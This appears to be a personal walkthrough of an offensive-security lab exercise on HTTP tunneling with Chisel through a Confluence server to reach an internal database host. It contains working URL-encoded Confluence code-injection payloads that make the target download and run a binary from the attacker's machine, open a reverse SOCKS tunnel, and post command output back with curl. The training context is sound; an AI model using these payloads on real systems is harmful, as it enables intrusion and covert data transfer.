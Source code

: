 # Walk: Tunneling Through Deep Packet Inspection - HTTP Tunneling with Chisel - VM Group 2

## Fecha: 31/03/2025
## Host: CONFLUENCE01 | PGDATABASE01
## IP: 192.168.xxx.63 | 10.4.xxx.215
## Objetivo
Start VM Group 2. Download the chisel_exercise_client binary from the Resources section to your Kali machine. If you're running the aarch64 build of Kali, download the chisel_exercise_client_aarch64 binary instead. There's a server running on port 8008 on PGDATABASE01. Set up a port forward using Chisel that allows you to run the binary you downloaded against port 8008 on PGDATABASE01.

Note: the source files used to build the client binaries can be downloaded from /exercises/client_source.zip.

## Herramientas
1. chisel
2. tcpdump
3. proxychains

## Procedimiento y comandos
#### Paso 1: Configuramos el tunel http con chisel
1. Servimos el binario de chisel.. 1.7.7
2. Lo obtenemos desde Confluence:
```
curl http://{CONFLUENCE01_IP}:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20{KALI_IP}/chisel_1.7.7_linux_386%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```
3. Levantamos el servidor chisel
```
chisel server --port 8080 --reverse
```
4. Levantamos tcpdump para observar tráfico y problemas si los hay
```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```
- Comando para observar logs en caso de problemas.
```
curl http://{CONFLUENCE01_IP}:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{KALI_IP}:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://{KALI_IP}:8080/%27%29.start%28%29%22%29%7D/
```
5. Activamos el cliente.
```
curl http://CONFLUENCE01:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{KALI_IP}:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

#### Paso 2: Configuramos el proxy SOCKS
1. Editamos el host y el puerto:
```
nano /etc/proxychains4.config

# defaults set to "tor"
socks5 127.0.0.1 1080
```
2. Obtenemos el binario:
```
wget --no-check-certificate -O chisel_exercise_client "https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/extras/tunneling/8799b14ce6c4d8a29a2ec210de7cf7b0-chisel_exercise_client"
```
3. Ejecutamos con proxychains el binario:
```
proxychains ./chisel_exercise_client -i 10.4.241.215 -p 8008
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Connecting to 10.4.241.215:8008
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.4.241.215:8008  ...  OK
Flag: "OS{9df46*********************************d901a}"

```


